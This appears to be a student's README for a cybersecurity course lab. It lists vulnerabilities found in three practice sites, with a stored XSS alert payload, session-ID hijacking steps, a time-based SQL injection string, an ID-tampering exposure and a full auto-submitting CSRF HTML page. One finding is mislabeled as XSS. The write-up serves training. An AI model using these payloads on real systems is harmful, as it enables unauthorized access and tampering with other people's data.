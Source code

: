 # Unit-9-Cybersecurity

# Green:

Vulnerability 1: Cross-Site Scripting (XSS)

Go to Contact section and submit a feedback with <script>alert('XSS
ALERT');</script>
Log into admin and once you click the feedback section, it will trigger a popup


<img src="green-exploit-1.gif" alt="Challenge 1">



Vulnerability 2: Cross-Site Scripting (XSS)

Go to log in page, if you enter the correct username, but inccorect
password, "Log in was unsuccessful" will be bolded
If you enter an invalid username and incorrect password, it wouldn't be bolded.


<img src="greenexploit2.gif" alt="Challenge 1">




# Blue:

Vulnerability 1: Session Hijacking/Fixation

In one browser (Chrome), we log in normally but then copy the current
PHPSESSIONID.
Use another browser (Safari in this case) which was NOT logged in and
change the PHPSESSIONID we got from Chrome.
It will show that it was automatically logged into the system in the
Safari without entering the password and username.


<img src="blue-exploit-1.gif" alt="Challenge 1">



Vulnerability 2: SQL Injection

Go to the salesperson tab
Select a random salesperson and add this at the end of the url ' OR
SLEEP(5)=0--'
The current browser will change in 5 seconds


<img src="blue-exploit-2.gif" alt="Challenge 1">



# Red:

Vulnerability 1: User Enumeration

Log in and then go to sales person's page
Click into any salesperson to get their ID and change it to 11 or 12;
these information shouldn't be public to everyone
Log out and go to the public site
Click into any salesperson and change their ID to 11 or 12 and we will
get that information when public user shouldn't supposed to
<img src="red-exploit-1.gif" alt="Challenge 1">


Vulnerability 2: Cross-Site Request Forgery (CSRF)

Create a html page with the code below

<html>
  <head>
    <title>A Totally Blank Page</title>
  </head>
  <body onload="document.CSRF.submit()">
<form action="https://104.198.208.81/red/public/staff/salespeople/edit.php?id=5"
method="post" style="display: none;" name='CSRF' target="res">
    <input type="text" name="first_name" value="HACKED" />
      <input type="text" name="last_name" value="WAS HACKED" />
      <input type="text" name="phone" value="111-111-2222" />
      <input type="text" name="email" value="HACKED@HACKED.com" />
</form>
    <iframe name="res" style="display: none;"></iframe>
  </body>
</html>


User submit a feedback with a url that links to the html page
Admin log into site and visit the attached feedback url
By visiting the page, it will attack and change salesperson with the ID 5's info

<img src="red-exploit-2.gif" alt="Challenge 1">
